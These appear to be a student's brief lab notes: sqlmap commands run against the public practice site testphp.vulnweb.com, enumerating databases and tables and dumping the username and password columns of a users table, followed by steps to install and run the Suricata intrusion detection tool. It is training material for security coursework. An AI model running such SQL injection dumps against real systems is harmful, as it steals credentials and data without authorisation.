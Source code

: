 # 3-2lab


sql cammods


sqlmap –u testphp.vulnweb.com/artists.php?artist=1 --dbs

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart --tables

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C columns

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C uname --dump

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C pass –dump

 week9
 
 suricata tool
 
 
 apt install suricata 
 suricata -i eth0 -v
 ctrl + c
 cat /var/log/suricata/eve.json
